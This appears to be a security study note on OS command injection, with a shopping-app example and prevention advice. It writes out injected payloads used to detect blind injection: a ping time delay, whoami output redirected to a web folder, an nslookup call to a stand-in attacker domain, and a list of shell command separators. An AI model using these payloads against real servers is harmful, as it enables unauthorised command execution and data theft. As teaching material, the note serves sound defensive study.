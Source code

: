 # OS Command Injection
* It's a vulnerability that allows an attacker to execute operating system (OS) commands on the server that is running an application.
* Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response.
  - Detecting can occur through time delays, for example: *\& ping -c 10 127.0.0.1 \&*
  - Detecting through redirecting output, for example: *\& whoami \> \/var\/www\/static\/whoami.txt \&* and then trying to access the text file *https://vulnerable-website.com/whoami.txt*
  - Detecting through out-of-band (OAST) techniques, for example: *\& nslookup kgji2ohoyw.web-attacker.com \&* this command is used to send a DNS query to the *web-attacker.com* monitor the *web-attack.com* DNS server to see if a query reached.
* The different shell metacharacters have subtly different behaviours that might change whether they work in certain situations.
* The following command separators work on both Windows and Unix-based systems:
  - \&
  - \&&
  - \|
  - \|\|
  - \* 

## Example: 
* A shopping application lets the user view whether an item is in stock in a particular store. This information is accessed via a URL: *https://insecure-website.com/stockStatus?productID=381&storeID=29*
* To provide the stock information, the application must query various legacy systems. For historical reasons, the functionality is implemented by calling out to a shell command with the product and store IDs as arguments.

## How to prevent
* The most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code. In almost all cases, there are different ways to implement the required functionality using safer platform APIs.
* Validating against a whitelist of permitted values.
* Validating that the input is a number.
* Validating that the input contains only alphanumeric characters, no other syntax or whitespace.
